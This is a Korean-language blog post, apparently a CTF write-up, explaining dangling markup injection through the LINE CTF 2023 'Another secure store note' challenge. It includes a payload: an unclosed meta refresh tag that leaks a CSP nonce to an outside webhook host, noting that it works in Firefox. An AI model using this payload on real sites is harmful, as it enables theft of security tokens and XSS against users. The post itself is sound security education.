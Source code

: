 ```yaml
---
title: '[Web] Dangling markup injection'
author: hoppi
date: 2023-04-09 11:32:00 + 0000
categories: [Web]
tags: [web, dangling_markup_injection, xss]
---
```


`LINE CTF 2023` 에 출제된 `Another secure store note` 문제의 author's writeup을 보다가 흠칫 지나치면서 보았던 Dangling markup에 대해서 적어볼까 합니다.  

# Dangling markup 이란?
***
`Dangling markup` 이라는 뜻은 무엇일까요? 사전적 의미를 보면 더 쉽게 이해할 수 있는데 "`애타게 기다리게 하다.`" 라는 뜻입니다. <u>즉 어떤 닫히지 않는 태그들을 의미합니다.</u> 이런 경우 브라우저는 혼란스러울 수 밖에 없겠죠.  
<br/>

# Dangling markup injection
***
이런 닫히지 않는 태그들을 주입할 수 있다면 xss나 어떠한 값을 leak할 수 있습니다. 해당 문제의 목표는  nonce 값을 얻어내고 nonce 값을 고정시켜 XSS를 트리거하는 것이었는데요. 문제에서 html 인젝션이 가능했는데 아래와 같이 닫히지 않는 상태로 meta 태그를 주입하여 nonce 값을 얻어낼 수 있습니다.  
```plaintext
<meta http-equiv="refresh" content='0; url=http://webhook.com/poc.html?b=
```
<br/>

인젝션 벡터를 보면 다음과 같습니다. 빨간색 부분에 인젝션한 값이 들어가는데 28 번째 줄의 type 속성의 값이 다른 속성들과 다르게 `작은따옴표`로 묶여있어서 `type=` 전까지 값이 위의 `meta` 태그에서 설정한 url의 파라미터 값으로 들어가게 됩니다.  
![vector](../../../assets/img/2023-04-09/vector.png){: w="800" h="400" }  
<br/>

하지만 `chrome`에서는 `<` `\n`이 URL에 포함되어 있으면 block을 해버리는 특성이 있기 때문에 크롬 브라우저에서 테스트해보면 안되지만 `firefox`에서는 이런 방어가 존재하지 않아 정상적으로 webhook으로 요청을 보낼 수 있게되고 nonce 값을 얻어 낼 수 있습니다. (또한 bot도 firefox를 이용하기 때문에 정상적인 leak이 가능해집니다)  
![nonce](../../../assets/img/2023-04-09/nonce.png){: w="800" h="400" }  
<br/>

# Reference
***
Dangling markup 말고도 이 문제에서 다루는 재미있는 특징들은 롸업을 참고하시면 되겠습니다. 또한 제작자분께서 문제를 따로 호스팅하고 있기 때문에 궁금하시면 테스트를 해봐도 될 것 같습니다.  
- [https://drstra.in/posts/assn-wu/](https://drstra.in/posts/assn-wu/)
